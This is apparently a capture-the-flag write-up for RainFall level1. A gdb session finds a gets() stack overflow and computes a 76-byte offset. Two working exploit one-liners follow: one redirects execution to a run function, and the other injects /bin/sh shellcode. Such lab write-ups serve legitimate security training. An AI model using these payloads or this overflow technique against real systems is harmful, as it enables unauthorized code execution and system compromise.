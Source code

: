 ```console
level1@RainFall:~$ gdb level1
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) b *0x08048490
Breakpoint 1 at 0x8048490
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048490 in main ()
(gdb) info frame
Stack level 0, frame at 0xbffff740:
 eip = 0x8048490 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff738, args: 
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
(gdb) x/w $eax
0xbffff6f0:	134513824
(gdb) p/d 0xbffff73c - 0xbffff6f0
$1 = 76
(gdb)
```

### Goal 

`eax` of `gets` will write at 0xbffff6f0. The `eip` is at 0xbffff73c. So we want to overwrite `eip` and write adsress of `run` in, by overflowing `eax`.


```bash
(gdb) info functions
```

```console
0x08048444  run
0x08048480  main
```

return address of `run` is `0x08048444` which is `0x44\x84\x04\x08` in little endian.

### Exploit

```bash
(python -c "print 'A' * 76 + '\x44\x84\x04\x08'"; cat)  | ./level1
```

# Or shellcode

```bash
(python -c 'print "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80" + "A" * (76-23) + "\xf0\xf6\xff\xbf"'; cat) | /home/user/level1/level1
```